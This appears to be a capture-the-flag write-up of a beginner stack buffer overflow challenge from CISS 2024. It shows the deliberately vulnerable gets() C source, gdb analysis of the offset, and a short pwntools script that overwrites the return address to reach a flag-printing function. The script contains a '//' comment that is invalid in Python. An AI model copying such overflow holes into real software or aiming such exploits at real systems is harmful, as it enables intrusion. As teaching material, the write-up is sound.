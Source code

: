 ```yaml
---
layout: post
title: "Baby buffer overflow - CISS 2024"
---
```


# Background

This is a pwn challenge from CISS2024, unfortunately this was eventually cancelled because they reused challenges and solutions were found half-way through the ctf :(

# Start

Very simple bof problem just by looking at the source code.

```c
#include <stdio.h>
#include <stdlib.h>

#define TRUE 1 

void gruss() {
    //Kein Teilnehmer wird einen Namen mit mehr als 64 Buchstaben haben
    char name_user[64] = {'\0'};
    printf("Wie heisst du?:\n");
    gets(name_user);
    printf("Hallo %s. Viel Spass bei DBH!\n", name_user);
}

void spass() {
    printf("So macht DBH doch viel mehr Spass.\n");
    char* args[3] = {"/bin/cat", "./flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main(int argc, char* argv[]) {
    gruss();
}
```
> dont ask me why its in german

The usual `gets()` function where it excepts whatever the user throws at it until it receives a `\n` character. This allows us to input more than the allocated size of the buffer.

# More info

A quick `checksec` reviews that there are no protection mechanisms on the binary. 

![Pasted image 20240919222132](https://github.com/user-attachments/assets/e179b3ac-aee5-46fb-9ace-78341bdf8e07)
>maybe its a bit too easy

We also find out the binary is 64bit.
# Exploit

![Pasted image 20240919222524](https://github.com/user-attachments/assets/b26968c6-0140-486b-8f4d-d5ab924a20f2)

A quick gdb tour tells us the address of `name_user` buffer at `rbp - 0x40` is loaded into `rax` at `*gruss + 101` then its moved into `rsi` for `printf`.

We then set a break point at `*gruss + 105`

![Pasted image 20240919223120](https://github.com/user-attachments/assets/2bbd72b8-4e99-4c3c-84b0-5b1ec6482899)

After we hit the breakpoint we can take a look at the registers

![Pasted image 20240919223403](https://github.com/user-attachments/assets/369d8bb0-a69b-4a71-9b3f-36dfdeca3b25)

We obtain the address of `rbp` and from the disassembled code of the `gruss` function, we know that `rbp - 0x40` is where the input buffer starts. 

![Pasted image 20240919223739](https://github.com/user-attachments/assets/71453b2d-af64-470c-9cfb-d8d71490e111)

Taking a look at the stack values we indeed see the `A`'s we send. We also see the return address that we have to overflow at `rbp + 8`. Our job here is very easy because there is no canary for this binary.

![Pasted image 20240919224614](https://github.com/user-attachments/assets/e6a3dc70-447b-4754-8c53-e5474987804e)

We then disassemble the `spass` function which prints out the flag. Because there is no PIE the address of the function will always be `0x4011d2`.

# More exploit

Knowing the offset and what we have to overflow, we craft a simple exploit script.

```python
from pwn import *

context.binary = "/home/kali/greetings"
p = process('/home/kali/greetings')

// 64 buffer + 8 = 72
payload = b'A' * 72 + p64(0x4011d2)

p.sendline(payload)
p.interactive()
```
![Pasted image 20240919224227](https://github.com/user-attachments/assets/6af9b391-a7d2-48b6-ace2-fa512a7fd386)

Great!
